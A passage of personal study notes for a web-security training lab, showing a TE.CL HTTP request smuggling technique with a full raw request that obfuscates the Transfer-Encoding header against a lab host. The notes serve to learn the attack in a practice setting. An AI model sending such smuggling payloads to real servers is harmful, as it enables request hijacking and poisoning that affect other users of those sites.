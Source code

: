 Second one is just a normal GET to /
**Send group in sequence (single connection)**

---
### HTTP request smuggling, obfuscating the TE header

This is a TE.CL one. Send a GPOST request, but try to obfuscate the Transfer-Encoding header. You can do it in several ways, you can see it here [[0. BSCP]]. But now we'll use this:
```text
POST / HTTP/1.1
Host: 0acc00e40481739c804eb26400590084.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: abc         ---> double TE header

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0\r\n
\r\n
```


---
